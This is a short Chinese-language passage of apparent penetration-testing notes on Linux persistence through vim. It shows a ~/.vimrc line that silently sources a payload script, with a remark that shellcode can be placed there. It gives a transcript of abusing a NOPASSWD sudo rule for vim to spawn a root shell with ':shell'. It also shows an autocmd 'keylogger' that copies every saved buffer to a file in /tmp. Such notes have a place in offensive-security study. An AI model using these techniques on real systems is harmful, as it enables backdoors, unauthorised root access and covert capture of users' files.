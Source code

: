 关注 .bash_profile / .bashrc 

当有新的shell执行时 会产生.bashrc文件

## 10.1.1 VIM Config Simple Backdoor

通过~/.vimrc留后门

.vimrc
```bash
:silent !source ~/.vimrunscript
```

.vimrunscript
```
#!/bin/bash
echo "hacked" > /tmp/hacksrcout.txt //这里放shellcode也可以
```

使用vim 进行 sudo -l 提权

```
linuxvictim@linuxvictim:~$ sudo -l
Matching Defaults entries for linuxvictim on linuxvictim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxvictim may run the following commands on linuxvictim:
    (root) NOPASSWD: /usr/bin/vim /opt/important.conf
linuxvictim@linuxvictim:~$ sudo /usr/bin/vim /opt/important.conf

\\输入:shell

root@linuxvictim:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## 10.1.2 VIM Config Simple Keylogger

使用:autocmd

```bash
:autocmd BufWritePost * :silent :w! >>/tmp/hackedfromvim.txt
```
